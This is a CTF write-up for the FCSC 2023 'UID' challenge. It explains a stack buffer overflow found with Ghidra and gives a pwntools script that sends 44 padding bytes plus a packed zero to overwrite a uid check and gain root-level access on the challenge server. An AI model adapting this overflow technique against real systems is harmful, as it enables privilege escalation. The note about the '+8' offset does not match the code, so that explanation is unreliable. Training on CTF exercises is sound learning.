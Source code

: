 ```yaml
---
title: CTFs | FCSC2023 | UID
author: BatBato
date: 2023-05-02
categories: [CTFs, FCSC2023, Intro]
tags: [CTF, FCSC, BoF]
permalink: /CTFs/FCSC2023/Intro/UID
---
```


# UID

![image](https://user-images.githubusercontent.com/73934639/235730343-6932dc50-9b9e-4b9a-be8a-041c644e0bf0.png)

For this chall, we had a really simple compiled C code. This code, analysed with Ghidra looked like this:

![image](https://user-images.githubusercontent.com/73934639/235730769-bc3ed607-e291-42d1-bf1f-ca6ab3628f06.png)

This basically just check if your user id is equal to `0` which is the `root` uid. The length of the string was 44 chars long. So we just need to input `44` chars, followed by a 0 to overwrite the value of the `local_c` variable:

```python
from pwn import *

# offset to return address
offset = 0x44+8

# Start the process
#p = process("./uid")
p = remote('challenges.france-cybersecurity-challenge.fr', 2100)
p.recvuntil("username: ")

# Craft the payload
payload = b"A" * 44 # Fill the buffer until the end of local_38
payload += p64(0)   # Overwrite local_c with 0 (use p64 for 64-bit value)

# Send the payload
p.sendline(payload)

# Print the output
print(p.recvall().decode())
```

> Note that we added `+8` at the offset so that we can overwrite the next address.
{: .prompt-tip}

This gives us:

![image](https://user-images.githubusercontent.com/73934639/235733792-be7bbae5-10f9-4d83-a878-54888f1f7aaf.png)

